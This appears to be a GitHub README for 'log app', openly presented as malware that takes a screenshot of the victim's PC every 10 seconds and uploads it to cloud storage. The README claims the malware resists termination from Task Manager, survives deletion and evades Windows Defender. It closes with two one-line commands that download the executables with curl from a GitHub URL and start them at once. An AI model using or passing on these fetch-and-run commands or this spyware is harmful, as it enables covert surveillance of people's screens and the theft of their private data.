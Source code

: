 # log app

#### The log.exe and log_v1.1.exe is a malware that will send screenshot of your pc every 10secs to a cloud based storage.

#### The log_v1.1 is an updated version of the original log.exe. This version adds a new feature to the malware, which prevents the user from manually killing the malware from the taskmanager. The victim has to use the terminal to kill the app.

#### Both versions of the malware can not be killed by simply deleting. Even though the malware might seem deleted the malware will still run and affect your computer.

#### Windows defender will not block the malware during installation or stop it while its running.

#### In order to test the malware in your virtual machine, simply install and run the malware or type the following command in the command prompt 

#### log_v1.1.exe
`mkdir C:/tempapp; curl -o "C:/tempapp/log.exe" https://github.com/falahabubacker/Log/blob/main/log_v1.1.exe; START C:/tempapp/log.exe;`

#### log.exe
`mkdir C:/tempapp; curl -o "C:/tempapp/log.exe" https://github.com/falahabubacker/Log/blob/main/log.exe; START C:/tempapp/log.exe;`
